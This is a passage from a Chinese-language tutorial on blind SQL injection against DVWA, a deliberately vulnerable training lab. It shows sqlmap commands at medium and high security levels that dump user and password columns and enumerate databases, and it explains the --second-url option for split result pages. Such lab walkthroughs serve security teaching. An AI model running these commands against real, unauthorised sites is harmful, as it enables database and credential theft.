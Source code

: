 ![21](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124726.png)





**导出指定数据表中的列字段进行保存**

```
 sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --data="id=1&Submit=Submit" --cookie="security=medium;PHPSESSID=dfqbsm7j4sopvt6p28jikahfj5" --batch -D dvwa -T users -C “user,password” –dump
```

![22](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124728.png)







#### High 

High级别的查询数据提交的页面，查询结果显示的页面分离成了2个不同的窗口分别控制的。即在查询提交窗口提交数据（POST请求）之后，需要到另外一个窗口进行查看结果（GET 请求）。若需获取请求体中的Form Data数据，则需要在提交数据的窗口中查看网络请求数据or通过拦截工具获取。
High级别的查询提交页面与查询结果显示页面不是同一个，也没有执行302跳转，这样做的目的是为了防止常规的SQLMap扫描注入测试，因为SQLMap在注入过程中，无法在查询提交页面上获取查询的结果，没有了反馈，也就没有办法进一步注入；但并不代表High级别不能使用SQLMap进行注入测试，此时需要利用其非常规的命令联合操作。如：--second-url="xxxurl"(设置第二阶段响应的结果显示页面的url，旧版使用--second-order=)



构造命令：

```
sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --data="id=1&Submit=Submit" --second-url="192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --cookie="security=high;PHPSESSID=dfqbsm7j4sopvt6p28jikahfj5" --batch
```

![23](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124730.png)





**查询所有数据库**

```
sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --data="id=1&Submit=Submit" --second-url="192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --cookie="security=high;PHPSESSID=dfqbsm7j4sopvt6p28jikahfj5" --batch --dbs
```



![24](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124732.png)

**查询当前数据库**

```
sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --data="id=1&Submit=Submit" --second-url="192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --cookie="security=high;PHPSESSID=dfqbsm7j4sopvt6p28jikahfj5" --batch --current-db
```
